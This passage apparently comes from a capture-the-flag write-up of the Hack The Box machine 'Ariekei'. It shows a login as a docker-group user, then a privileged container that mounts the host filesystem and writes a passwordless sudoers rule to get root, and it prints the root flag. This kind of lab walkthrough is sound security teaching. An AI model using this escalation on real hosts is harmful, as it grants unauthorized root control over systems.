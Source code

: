  * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

7 packages can be updated.
7 updates are security updates.


Last login: Mon Nov 13 10:23:41 2017 from 10.10.14.2
spanishdancer@ariekei:~$ id
uid=1000(spanishdancer) gid=1000(spanishdancer) groups=1000(spanishdancer),999(docker)
spanishdancer@ariekei:~$ hostname
ariekei.htb
```

We are now on ariekei.htb and not beehive or calvin Feelsgoodman

Time to break out of the docker

[Video](https://www.youtube.com/watch?v=AtO5TDJnieA&feature=youtu.be) Shows us how to break out of the docker to the host machine

```
spanishdancer@ariekei:~$ docker run --privileged --interactive --tty --volume /:/host bash
bash-4.4# echo "spanishdancer ALL=(ALL) NOPASSWD: ALL" > /host/etc/sudoers.d/foo
bash-4.4# exit
exit
spanishdancer@ariekei:~$ sudo -i
root@ariekei:~# id
uid=0(root) gid=0(root) groups=0(root)
root@ariekei:~# cat root.txt
0385b6629b30f8a673f7bb279fb1570b
```
